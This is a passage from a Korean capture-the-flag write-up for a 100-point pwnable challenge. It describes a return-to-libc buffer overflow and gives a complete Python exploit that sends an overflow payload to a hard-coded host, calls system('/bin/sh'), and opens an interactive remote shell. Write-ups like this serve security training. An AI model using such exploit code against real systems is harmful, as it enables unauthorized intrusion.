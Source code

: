 ``` python

s.close()
```

## 0x13 Pwnable earth [100]
- got 영역 릭을 통해 라이브러리 주소를 구해왔는데...네. 주소가 고정이였어요.
- system 함수와 /bin/sh를 통해 쉘을 실행시켰는데...연결은 유지되어있는거 같은데 명령어 결과가 출력이 안되길래..시스템 함수의 eip를 aaaa 로 덮고 에러메시지가 출력되는 것을 확인하기 위해 exit시키니 이후에 정상적으로 쉘을 획득할 수 있엇습니다.
- 쉘 획득 후 서버 내에 server.py 를 확인해보니... 뒷 부분에서 디버거가 붙어서 주소가 고정되어 있었던 것을 확인할 수 있었습니다.

```python
import socket
from struct import *

p32 = lambda x:pack("<L",x)
up32 = lambda x:unpack("<L",x)[0]

host = "223.194.105.182"
port = 22900

def until(msg):
	data = ''
	while True:
		data += s.recv(1)
		if msg in data:
			return data

s = socket.socket()
s.connect((host, port))

print until("]")

system_libc = 0xB7E54310
binsh_libc = 0xb7f76bac

stack = 0xbffff46c
print_addr = 0x080484D8
print_got = 0x0804A00C

payload =  "a" * (112)
#payload += p32(print_addr)
payload += p32(system_libc)
payload += p32(0x61616161)
payload += p32(binsh_libc)

s.send(payload + "\n")

r_msg = s.recv(1024)
#print repr(r_msg)
#print repr(s.recv(4096))
#until("Usage: ")
#print "[Leak]---"
#leak = s.recv(4096)
#print repr(leak)
#printf_libc = up32(leak[0:4])
#strcpy_libc = up32(leak[4:8])
#print  "[*] printf Libc : " + hex(printf_libc)
#print  "[*] strcpy Libc : " + hex(strcpy_libc)

while True:
	cmd = raw_input("> ")
	s.send(cmd + "\n")
	print s.recv(4096)
```